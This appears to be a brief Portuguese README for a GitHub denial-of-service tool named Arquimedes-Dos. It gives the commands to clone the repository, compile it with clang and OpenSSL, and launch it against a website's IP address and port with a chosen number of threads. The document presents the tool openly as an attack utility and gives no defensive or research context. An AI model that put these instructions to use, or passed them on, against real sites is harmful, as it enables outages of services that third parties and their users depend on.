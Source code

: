 # Arquimedes-Dos

## Instalação:
git clone https://github.com/Dragonmodder7/Arquimedes-Dos.git
cd Arquimedes-Dos

## Compilar o código:
clang -o arquimedes arquimedes-Dos.c -lssl -lcrypto -lpthread 

## Rodando o DoS:
./arquimedes -I <IP do site> -p <PORT> -t <threads>
